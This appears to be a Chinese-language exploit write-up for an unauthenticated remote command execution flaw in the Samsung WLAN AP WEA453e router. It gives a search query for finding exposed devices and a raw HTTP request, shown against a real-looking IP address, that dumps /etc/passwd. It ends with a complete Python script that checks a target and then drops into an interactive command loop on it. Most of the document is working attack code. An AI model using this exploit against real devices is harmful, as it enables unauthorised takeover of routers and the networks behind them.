


# 三星 WLAN AP WEA453e路由器 远程命令执行漏洞

## 漏洞描述

三星 WLAN AP WEA453e路由器 存在远程命令执行漏洞，可在未授权的情况下执行任意命令获取服务器权限。

## 漏洞影响

```
三星 WLAN AP WEA453e路由器
```

## 网络测绘

```
title=="Samsung WLAN AP"
```

## 漏洞复现

登录页面如下


请求包如下

```plain
POST /(download)/tmp/a.txt HTTP/1.1
Host: 175.199.182.152
Connection: close
Content-Length: 48

command1=shell:cat /etc/passwd| dd of=/tmp/a.txt
```



## 漏洞POC

```python
import requests
import sys
import random
import re
import base64
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 三星 WLAN AP WEA453e路由器                                  \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/(download)/tmp/a.txt"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data = "command1=shell:cat /etc/passwd| dd of=/tmp/a.txt"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        if "root" in response.text and response.status_code == 200:
            print("\033[36m[o] 目标 {} 存在漏洞, 响应为:\n{}\033[0m".format(target_url, response.text))
            while True:
                cmd = str(input("\033[35mCmd >>> \033[0m"))
                POC_2(target_url, cmd)
        else:
            print("\033[31m[x] 目标 {} 不存在默认管理员弱口令     \033[0m".format(target_url))

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, cmd):
    vuln_url = target_url + "/(download)/tmp/a.txt"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data = "command1=shell:{}| dd of=/tmp/a.txt".format(cmd)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        print("\033[36m{} \033[0m".format(response.text))
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```


